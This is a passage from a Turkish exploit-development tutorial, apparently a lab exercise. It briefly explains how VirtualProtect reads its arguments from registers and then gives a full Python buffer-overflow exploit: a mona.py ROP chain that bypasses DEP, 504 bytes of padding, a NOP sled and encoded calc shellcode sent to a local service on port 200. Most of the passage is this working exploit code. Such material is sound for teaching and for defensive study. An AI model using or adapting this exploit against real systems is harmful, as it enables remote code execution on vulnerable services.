Ve VirtualProtect fonksiyonu çalıştığı anda sırasıyla registerılarımızdan argümanlarını alacak.

- İlk argüman işi bittikten sonra döneceği `Stack` adresi (EBP registerı).

- İkinci argüman ne kadarlık alanı executable yapacak (EBX registerı).

- Üçüncü argüman `NewProtect` 'i read-write-executable olacak (EDX registerı).

-  Dördüncü argüman `OldProtect` (ECX registerı)


# `EXPLOIT`

```python
import socket
import struct

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
  rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
    0x77c4289b,  # POP EAX # RETN [msvcrt.dll]
    0x77c01120,  # ptr to &VirtualProtect() [IAT msvcrt.dll]
    0x77e892dc,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll]
    0x77eb73b9,  # PUSH EAX # POP ESI # POP EBP # RETN 0x04 [RPCRT4.dll]
    0x41414141,  # Filler (compensate)
      #[---INFO:gadgets_to_set_ebp:---]
    0x7c91648c,  # POP EBP # RETN [ntdll.dll]
    0x41414141,  # Filler (RETN offset compensation)
    0x71aa2b53,  # & push esp # ret  [WS2_32.dll]
      #[---INFO:gadgets_to_set_ebx:---]
    0x77ebb5d2,  # POP EAX # RETN [RPCRT4.dll]
    0xfffffdff,  # Value to negate, will become 0x00000201
    0x7e39493b,  # NEG EAX # RETN [USER32.dll]
    0x77de563a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll]
      #[---INFO:gadgets_to_set_edx:---]
    0x77c24de1,  # POP EAX # RETN [msvcrt.dll]
    0xffffffc0,  # Value to negate, will become 0x00000040
    0x77e8bf1a,  # NEG EAX # RETN [RPCRT4.dll]
    0x77c48fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll]
      #[---INFO:gadgets_to_set_ecx:---]
    0x77c2a25b,  # POP ECX # RETN [msvcrt.dll]
    0x77efcd2d,  # &Writable location [RPCRT4.dll]
      #[---INFO:gadgets_to_set_edi:---]
    0x77c1a88c,  # POP EDI # RETN [msvcrt.dll]
    0x77e8b47e,  # RETN (ROP NOP) [RPCRT4.dll]
      #[---INFO:gadgets_to_set_eax:---]
    0x7c80998d,  # POP EAX # RETN [kernel32.dll]
    0x90909090,  # nop
      #[---INFO:pushad:---]
    0x77e9edb2,  # PUSHAD # RETN [RPCRT4.dll]
  ]
  return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

exploit = 'A'*504
exploit += rop_chain
exploit += '\x90'*30
exploit += calc

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 200))
s.send(exploit)
```
